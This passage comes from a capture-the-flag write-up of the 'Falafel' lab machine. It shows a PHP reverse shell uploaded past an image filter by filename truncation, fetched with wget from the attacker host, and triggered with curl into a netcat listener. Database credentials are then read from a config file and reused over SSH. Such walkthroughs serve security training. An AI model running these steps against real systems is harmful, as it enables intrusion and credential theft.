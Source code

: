 Containing our php code and a 'GIF89' at the beginning, will using the '.jpg' bypass the image filter, but the script will shorted and cut out the last 4 characters, leaving the file names as 'A'*232 + '.php'.
So taking my sb.php reverse shell, and renaming it to the convention
```
CMD: cd /var/www/html/uploads/0621-2211_287036c71d5619df; wget 'http://10.10.14.7:3999/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.jpg'

The name is too long, 240 chars total.
Trying to shorten...
[..snip..]
2018-06-21 22:11:25 (338 MB/s) - 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php' saved [3466/3466]
[..snip..]
```
Now doing a curl to will trigger the backdoor and kick back a shell.
```
root@kali:~/Falafel$ curl http://10.10.10.73/uploads/0621-2211_287036c71d5619df/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```
```
root@kali:~/Falafel$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.7] from falafel.htb [10.10.10.73] 47088
Linux falafel 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 22:15:33 up 3 days, 17:54,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      Mon04    3days  0.05s  0.04s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ bash -i
www-data@falafel:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@falafel:/$
```
Now that worked fairly terrific! Remember /connection.php that where discovered earlier, lets have a look into that one.
```
www-data@falafel:/var/www/html$ cat connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafel[snip]');
   define('DB_DATABASE', 'falafel');
   [..snip..]
?>
www-data@falafel:/var/www/html$
```
Nice DB Creds. Well maybe they are reusing that password?
```
root@kali:~/Falafel$ ssh moshe@10.10.10.73
moshe@10.10.10.73's password: falafel[snip]
$ bash -i
moshe@falafel:~$ id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
moshe@falafel:~$ ls -alsh user.txt
4.0K -r-------- 1 moshe moshe 33 Nov 27  2017 user.txt
moshe@falafel:~$
```

[^1]: [Magic Hashes](https://www.whitehatsec.com/blog/magic-hashes/)  
[^2]: [OWASP Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)  
[^3]: [Unix Stack Excange](https://unix.stackexchange.com/questions/32795/what-is-the-maximum-allowed-filename-and-folder-size-with-ecryptfs)  
[^4]: [Ubuntu Wikipedia](https://wiki.ubuntu.com/Security/Privileges)  
[^5]: [iraw2png.pl](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/)